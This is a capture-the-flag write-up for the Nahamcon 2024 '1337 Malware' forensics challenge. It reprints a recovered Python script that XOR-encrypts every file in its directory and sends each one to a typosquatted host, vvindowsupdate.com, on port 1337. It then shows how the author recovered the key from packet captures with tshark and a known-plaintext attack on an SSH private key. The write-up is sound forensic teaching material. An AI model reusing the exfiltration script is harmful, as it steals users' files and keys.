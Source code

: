 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | 1337 Malware Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: forensics
challenge: 1337 Malware
tags: "forensics, twh, pcap, malware, python, tshark, xor, known plaintext attack"
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>


## 1337 Malware
> Solved by : thewhiteh4t


- From the PCAP we can extract `rans.py` by exporting HTTP objects

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

key = randbytes(32)


def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()

    encrypted = xor(data, key)
    return encrypted


def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()


def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)
    return file_paths


files = get_all_files()
for f in files:
    send_encrypted(f)
    # os.remove(f)
```


- script generates a random key using randbytes function
- list of all files is generated and each file is passed to `send_encrypted` function
- it encrypts or encodes each file using XOR against the random key


![](https://i.imgur.com/nVmsdt6.png)



- then it first sends a message with the filename in plaintext and second it sends the encoded string


![](https://i.imgur.com/PGkqdW5.png)



- we can extract all this data to a file using `tshark` :

```
tshark -r 1337-malware.pcapng -T fields -e data.data -Y 'data.data' > enc_strings.txt
```

- since the plain text message has a fixed pattern and it begins by `Sending` the hex string remains constant so we can filter out the plain text message using start of the string : `53656e`
- each hex string of plain text message starts with it, so the full pattern is like :

```
sending file
<XORed data in hex>
.
.
.
sending file
<XORed data in hex>
```

- now we don’t have the key and the key is not sent by the script either
- after some google fu I found : `XOR Known Plaintext Attack`
- https://blog.didierstevens.com/2016/01/01/xor-known-plaintext-attack/
- if we decode only the plaintext hex strings we can see the filenames :

```
Sending: /home/davey/Documents/resources.zip
Sending: /home/davey/Documents/ecorp.png
Sending: /home/davey/Documents/Welcome Aboard.pdf
Sending: /home/davey/Documents/.ssh/id_rsa
Sending: /home/davey/Documents/.ssh/id_rsa.pub
```

- for parsing the data extracted from PCAP we can use the following python code :

```python
with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```

- now if we think about known plain text in these files, for ZIP, PNG and PDF we don’t have much data except their headers
- but for `id_rsa` the first line is standard and is present in all valid keys :

```
-----BEGIN OPENSSH PRIVATE KEY-----
```

- using this with `xor-kpa.py` we can attempt to find the key


![](https://i.imgur.com/V6VrZrZ.png)



- we only need the first key
- now we can write a decode function to get the plain text file contents : 

```python
#!/usr/bin/env python3

from pwn import xor

key = b"\x82\xc2SP\x8b\xd5LG\xa7\xe5m\xec\xd8v\xb5\xd6\xa4\'\xc6E\t\x0br\xe1\xb9q3\"\xfe\xe1YY"


def decrypt_file(filename):
        print(f'Decoding : {filename}')
        with open(filename, 'rb') as encfile:
                data = encfile.read()
        decrypted = xor(data, key)
        orig_fname = filename.replace('enc_', '')
        print(f'Writing : {orig_fname}')
        with open(orig_fname, 'wb') as decfile:
                decfile.write(decrypted)


with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```


- `resources.zip` is password protected
- `ecorp.png` is a reference to our beloved Mr Robot!
- `Welcome Aboard.pdf` contains the following content : 


![](https://i.imgur.com/uEQWs66.png)

- and we now have the password for the zip file!


![](https://i.imgur.com/BFgBtLB.png)



